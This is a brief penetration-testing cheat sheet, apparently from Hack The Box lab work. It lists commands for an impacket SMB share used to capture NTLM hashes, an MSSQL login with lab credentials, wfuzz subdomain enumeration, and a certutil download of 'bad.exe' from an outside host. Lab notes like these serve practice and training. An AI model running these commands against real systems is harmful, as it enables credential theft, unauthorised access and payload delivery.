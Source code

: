 



# smb

crear una carpeta compartida rapida por smb y poder capturar hashes NTLM

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```



## mssql

```bash
impacket-mssqlclient  sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```





## Subdomain enumeration

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154
```






## File trasnfer

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

```
```